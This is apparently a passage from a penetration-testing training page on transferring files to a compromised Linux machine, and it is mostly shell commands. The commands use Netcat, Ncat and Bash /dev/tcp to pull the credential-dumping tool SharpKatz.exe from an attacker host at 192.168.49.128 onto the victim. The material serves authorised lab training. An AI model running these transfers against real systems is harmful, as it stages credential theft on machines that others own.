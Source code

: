 Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Let's do the same with Ncat:

#### Attack Host - Sending File as Input to Ncat

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ # Example using Ncat
shakir0x00@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

#### NetCat - Sending File as Input to Netcat

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ # Example using Original Netcat
shakir0x00@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Ncat

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ # Example using Ncat
shakir0x00@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
